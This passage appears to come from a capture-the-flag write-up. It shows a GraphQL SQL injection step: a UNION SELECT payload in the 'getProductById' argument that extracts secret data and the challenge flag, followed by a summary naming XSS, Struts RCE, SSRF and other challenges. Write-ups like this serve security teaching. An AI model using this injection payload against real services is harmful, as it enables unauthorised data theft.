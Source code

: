 {: .box-note}
**Confirmation:** This confirms a SQL injection vulnerability in the `getUser` query.

### Step 4: Exploiting SQL Injection to Retrieve the Flag

Using SQL injection in the `getProductById` query, we attempt to extract sensitive data:

```graphql
{
  getProductById(id: "-1 UNION SELECT 3, secret_info, 'description', 0 FROM product_secrets WHERE product_id = 3") {
    id
    name
    description
    price
  }
}
```

By executing this payload, we retrieve secret information, which includes the flag.

{: .box-success}
**Flag:** `Spark{s0_M4ny_w4yss_t0_w1N!!!}`

---

## Summary

This CTF covered various web security vulnerabilities including:
- Cross-Site Scripting (XSS)
- GraphQL introspection and information disclosure
- Apache Struts RCE (CVE-2017-5638)
- SQL Injection
- Server-Side Request Forgery (SSRF)

Each challenge demonstrated different attack vectors and exploitation techniques commonly found in web applications.